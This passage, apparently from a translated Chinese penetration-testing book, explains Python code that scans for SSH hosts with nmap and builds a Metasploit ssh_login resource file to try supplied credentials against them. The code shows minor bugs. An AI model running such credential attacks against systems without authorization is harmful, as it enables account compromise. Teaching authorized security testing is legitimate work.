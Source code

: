 其中一些项已经设置，但缺少的组件是远程主机的 IP 地址和我们将要测试的凭据。默认端口已设置，但如果脚本设计用于测试不同的端口，则也必须设置此端口。您会注意到凭据不是必填字段，但要执行凭据攻击，您确实需要它们。为了创建这个，我们将在 Python 中打开并使用`write`函数创建一个文件。我们还将把缓冲区大小设置为零，这样数据就会自动写入到文件中，这与操作系统默认将数据刷新到文件中不同。

脚本还将创建一个单独的资源文件，其中包含它标识的每个主机的 IP 地址。运行此脚本的另一个好处是，它创建了一个已启用 SSH 的目标列表。将来，您应该尝试构建不是为测试单个服务而设计的脚本，但这是一个很好的示例。我们将在前面的脚本概念的基础上进行构建，但是我们将再次构建函数来模块化它。这将允许您在将来更容易地将其转换为类。首先，我们添加了`ifacedetails.py`脚本的所有函数和导入的库。然后，我们将修改脚本的参数代码，以便它接受更多参数：

```
# Argument Validator
if len(sys.argv) != 5:
    sys.exit("[!] Please provide four arguments the first being the targets the second the ports, the third the username, and the fourth the password")
password = str(sys.argv[4])
username = str(sys.argv[3])
ports = str(sys.argv[2])
hosts = str(sys.argv[1])
```

现在构建一个函数，该函数将接受传递给它的详细信息，从而创建一个资源文件。您将创建包含必要值的字符串变量，这些值将写入`ssh_login.rc`文件。然后，如前所述，使用简单的 open 命令将细节写入文件，并使用相关的`bufsize`或`0`。该文件现在已写入字符串值。流程完成后，文件将关闭。当您查看`set_rhosts`值的字符串值时，请记住。请注意，它指向一个文件，该文件每行包含一个 IP 地址。因此，我们需要生成此文件，然后将其传递给此函数：

```
def resource_file_builder(dir, user, passwd, ips, port_num, hosts_file):
    ssh_login_rc = "%s/ssh_login.rc" % (dir)
    bufsize=0
    set_module = "use auxiliary/scanner/ssh/ssh_login \n"
    set_user = "set username " + username + "\n"
    set_pass = "set password " + password + "\n"
    set_rhosts = "set rhosts file:" + hosts_file + "\n"
    set_rport = "set rport" + ports + "\n"
    execute = "run\n"
    f = open(ssh_login_rc, 'w', bufsize)
    f.write(set_module)
    f.write(set_user)
    f.write(set_pass)
    f.write(set_rhosts)
    f.write(execute)
    f.closed
```

接下来，让我们构建实际的`target_identifier`函数，它将使用提供的端口和 IP 使用 nmap 库扫描目标。首先，它清除`ssh_hosts`文件的内容。然后检查扫描是否成功。如果扫描成功，脚本将为通过扫描识别的每个主机启动`for`查找。对于这些主机中的每一个，它都加载接口字典并遍历键和值对。

键保存接口名称，值是一个嵌入式字典，它保存映射到命名键的接口的每个值的详细信息，如前面的`ifacedetails.py`脚本所示。将`'addr'`键的值与扫描得到的`host`值进行比较。如果两者匹配，则主机属于评估员的框，而不是被评估的组织。发生这种情况时，主机值被设置为`None`，并且目标不会添加到`ssh_hosts`文件中。最后一项检查是验证该端口实际上是一个 SSH 端口，并且该端口已打开。然后将该值写入`ssh_hosts`文件并返回到主函数。脚本没有阻止 localhost IP 地址，因为我们将保留在测试和比较中，如果您希望包含此功能，请修改此模块：

```
def target_identifier(dir,user,passwd,ips,port_num,ifaces):
    bufsize = 0
    ssh_hosts = "%s/ssh_hosts" % (dir)
    scanner = nmap.PortScanner()
    scanner.scan(ips, port_num)
    open(ssh_hosts, 'w').close()
    if scanner.all_hosts():
        e = open(ssh_hosts, 'a', bufsize)
    else:
        sys.exit("[!] No viable targets were found!")
    for host in scanner.all_hosts():
        for k,v in ifaces.iteritems():
            if v['addr'] == host:
                print("[-] Removing %s from target list since it 
                    belongs to your interface!") % (host)
                host = None
        if host != None:
            home_dir="/root"
            ssh_hosts = "%s/ssh_hosts" % (home_dir)
```